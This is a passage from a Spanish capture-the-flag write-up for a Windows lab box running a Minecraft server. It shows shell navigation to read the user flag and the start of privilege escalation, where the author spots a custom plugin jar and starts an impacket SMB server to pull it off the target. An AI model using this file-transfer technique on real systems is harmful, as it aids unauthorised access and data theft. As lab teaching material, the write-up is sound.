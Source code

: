 ```bat
```

Y en la carpeta `Desktop` de la carpeta personal encontraremos la primera flag.

```bat
PS C:\users\svc_minecraft\server> cd ..
PS C:\users\svc_minecraft> cd Desktop
PS C:\users\svc_minecraft\Desktop> dir


    Directory: C:\users\svc_minecraft\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----                                                                                               
-ar---        6/17/2024   3:02 AM             34 user.txt                                                                                           


PS C:\users\svc_minecraft\Desktop> type user.txt
2a6867d4f2483f2e715097acc3******
```

## Escalada de privilegios

En la carpeta `plugins` del servidor, hay un plugin que no se parece ser de un tercero como SpigotMC o Modrinth. Es algo custom...

```bat
PS C:\users\svc_minecraft\server\plugins> ls


    Directory: C:\users\svc_minecraft\server\plugins


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/27/2023   2:48 PM           9996 playercounter-1.0-SNAPSHOT.jar
```

Podemos copiarlo a nuestro equipo montándonos un servidor SMB con la herramienta `smbserver.py` de impacket

```bash
❯ doas smbserver.py -smb2support uwu .
doas (vzon@pwnedz0n) password: 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
